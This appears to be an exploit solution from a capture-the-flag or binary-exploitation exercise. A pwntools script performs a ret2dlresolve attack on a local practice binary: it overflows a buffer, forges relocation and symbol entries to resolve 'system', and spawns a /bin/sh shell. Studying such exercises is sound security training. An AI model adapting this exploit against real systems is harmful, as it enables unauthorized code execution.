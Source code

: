 ​ **payload 速通版：**

```bash
from pwn import *
context.arch = "i386"
c=process('/ret2dl/pwn')
elf=ELF('/ret2dl/pwn')

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr 
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

read_plt = elf.plt['read'] 
read_got = elf.got['read'] 
leave_ret= 0x0804854A      
writable_addr = 0x0804a700 

Elf32_Sym_sys_addr = writable_addr + 32
align = 0x10-((Elf32_Sym_sys_addr-dynsym)&0xf) 
Elf32_Sym_sys_addr += align   
st_name = Elf32_Sym_sys_addr + 0x10 - dynstr 
Elf32_Sym_sys = p32(st_name) + p32(0) + p32(0) + p32(12) 

r_offset = read_got
r_index  = (Elf32_Sym_sys_addr-dynsym)/0x10
r_info   = int(r_index)<<8 | 0x7
reloc_index = writable_addr - rel_plt + 24
Elf32_rel_plt_sys = p32(r_offset) + p32(r_info) 
Elf32_rel_plt_sys_addr = reloc_index + rel_plt

payload1 = 0x2c * b'a'
payload1 += p32(read_plt)
payload1 += p32(0x0804852D) 
payload1 += p32(0)
payload1 += p32(writable_addr)
payload1 += p32(100)
c.send(payload1)

payload2 =  p32(plt0)   
payload2 += p32(reloc_index) 
payload2 += p32(0xdeadbeef)  
payload2 += p32(writable_addr+80)
payload2 += p32(0)          
payload2 += p32(0)          
payload2 += Elf32_rel_plt_sys 
payload2 += align*b'a'  
payload2 += Elf32_Sym_sys
payload2 += b'system\x00'
payload2 += (80-len(payload2))*b'a'
payload2 += b'/bin/sh\x00'
c.send(payload2)

payload3 =  0x28 * b'a'
payload3 += p32(writable_addr-4) 
payload3 += p32(leave_ret) 
c.send(payload3)

c.interactive()
```
